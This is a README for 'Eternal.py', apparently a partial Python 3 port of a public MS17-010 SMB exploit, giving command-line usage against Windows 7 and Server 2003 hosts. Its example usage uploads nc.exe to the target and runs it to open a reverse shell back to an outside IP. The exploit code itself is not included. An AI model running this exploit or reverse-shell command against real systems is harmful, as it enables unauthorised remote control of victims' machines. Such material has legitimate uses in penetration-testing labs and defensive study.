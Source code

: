 # Eternal.py

This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included.

Tested in windows 7 and windows server 2003. Other Operative Systems may require to finish the translation to python3.

usage: 

   `python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>`
   
   `python3 eternal.py -i <remote ip> -c <rce to execute>`

 NOTE: files transfered will appear inside remote host like c:\<output file name>

example usage: python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'

If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
